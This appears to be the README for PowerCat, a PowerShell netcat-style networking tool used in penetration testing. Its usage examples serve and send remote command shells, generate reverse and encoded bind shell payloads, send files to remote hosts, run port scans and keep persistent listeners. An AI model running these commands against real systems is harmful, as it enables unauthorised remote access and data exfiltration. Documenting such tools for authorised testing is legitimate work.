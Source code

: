 PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife that's interoperable with the original netcat.

Installation
------------
PowerCat is packaged as a PowerShell module.  First you need to import the module before you can use its functions.
###
```powershell
    # Import the functions from downloaded psm1/psd1 File:
    Import-Module PowerCat.psd1
```
### Parameters:
```powershell    
    Start-PowerCat # Listener
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
    -Port           # The port to listen on.                              [Int]
	-PipeName       # Name of pipe to listen on.                          [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
	
	Connect-PowerCat # Client
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
	-RemoteIp       # IPv4 address of host to connect to.                 [String]
    -Port           # The port to connect to.                             [Int]
	-PipeName       # Name of pipe to connect to.                         [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads/writes from/to the console.
###
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
###
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Recieve File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve shells using the -Execute parameter.
###
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a cmd Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB:
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using New-PowerCatPayload. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -Client -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCatPayload -Encoded -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -SendFile C:\pathto\inputfile -KeepAlive
```
